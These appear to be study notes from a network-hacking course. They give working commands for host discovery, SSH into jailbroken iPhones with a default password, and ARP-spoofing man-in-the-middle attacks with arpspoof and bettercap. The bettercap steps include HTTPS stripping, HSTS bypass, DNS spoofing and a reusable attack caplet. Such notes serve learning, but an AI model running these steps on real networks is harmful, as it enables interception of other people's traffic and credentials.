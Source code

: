 

**Network Mapping**
<pre>
To find devices connected and their ip, mac etc
    netdiscover -r 10.0.1.1/24      (1/24 check for 1 to 254)
    q -  to quit.
Nmap/zenmap
zenmap
ping scan,quick scan,quick scan plus (slower)   - gives the os and version of the service
so that we can search the “service name + version” exploit  in the google

<b>NOTE:</b>when iphone is jail broken , it automatically creates service SSH and password : alpine
    ssh root@ipaddress 
    password:alpine
    
    
<b>MITM attack (Man in the middle attack):</b>
being in the middle of the connection ,intercepting and watching the tranferred data
communication between networks is carried out using mac address and not ip adr
Method1: Arp spoofing attack
</pre>



**ARP spoofing:**
<pre>
ARP-Address Resolution Protocol  
In this process, the hacker machine does 2 things
* hacklap telling router this is the IP (pretending to have targlap's IP address)
----router registers this ip and mac address of hacklap
* hacklap telling the targlap this is the IP (pretending to have router's IP address) 
----targlap registers this ip and mac address of hacklap 
ARP spoofing is possible because the clients even accepts response without sending requests and trusts without verification

<b>TOOLS</b>
<b>1.arpspoof</b>
    arp -a      (show ip and mac in arp table)
    arpspoof -i eth0(or)wlan0 -t   target'sIP   router'sIP            (to targetlap)
    arpspoof -i eth0(or)wlan0 -t   router'sIP   target'sIP            (to router)
after this cmd exec, the mac address mapped to the router inside the targlap is changed as hacklap's mac address 
(use arp -a to check)
* Linux defaultly have port-forwarding disabled , must enable port-forwarding for to-from communication
    echo 1 > /proc/sys/net/ipv4/ip_forward
    
<b>2.bettercap</b>
to go into 
    bettercap -iface  eth0(or)wlan0
    >help
    >help net.probe
    >net.probe on    (finds all ip's and mac of all devices connected to eth0/wlan0)
    >net.show    (shows the ip mac table)
    >help arp.spoof       (shows all submodules and params)
    
    
    (attack example)
    >net.probe on
    >set arp.spoof.fullduplex true      (set submodule_name true ,for making any params to true or false)
    >set arp.spoof.targets targetlap'sIP
    >arp.spoof on
    >net.sniff on    (capture and analyze data)
 to stop and come out
    >exit
* bypassing https ,To spoof and snif https , we would convert the https to http and give to target.
When converting Https to Http, set net.sniff.local true    (so that it doesn't feel insecure to show data on screen)
to see predefined caplets,
    >caplets.show
    >hstshijack/hstshijack
* bypassing hsts, some replacing scripts needed.
dns spoofing(redirecting the domain in the targetalp to our running apache server)
    service apache2 start  (run the local server)   and modify the \var\www\html\index.html as your wish
use dnf.spoof inside bettercap 
* setting hstshijack payload, go to \usr\local\share\bettercap\caplets\ in the set\hshstjack\payloads add , after the previous script and add like *:\filename.js    (* for all websites)
* to enter bettercap userinterface , 
    bettercap -iface  eth0(or)wlan0
    >http-ui          (if not installed >ui.update)
    username:user
    password:pass
* use Wireshark for future analysis of the file.cap
 </pre>   
  
  
<pre>
<b>NOTE:</b> use caplets for creating a script
    <b>CAPLET</b>(cmds as txt file )
    open text file and add the commands line by line
        net.probe on
        set arp.spoof.fullduplex true 
        set arp.spoof.targets 2.0.0.7
        arp.spoof on
        set net.sniff.local true
        set net.sniff.output /anylocation/file.cap       (to open in wireshark)
        net.sniff on  
     save in extension filename.cap in /root
    to run caplet in bettercap
        bettercap -iface eth0 -caplet /root/filename.cap


    <b>Http</b> data in http is plain text, Man in the middle can read and edit request,response
    <b>Https</b> data is encrypted using TLS(transport layer security) or SSL (secure sockets layers)

   
   </pre>
    

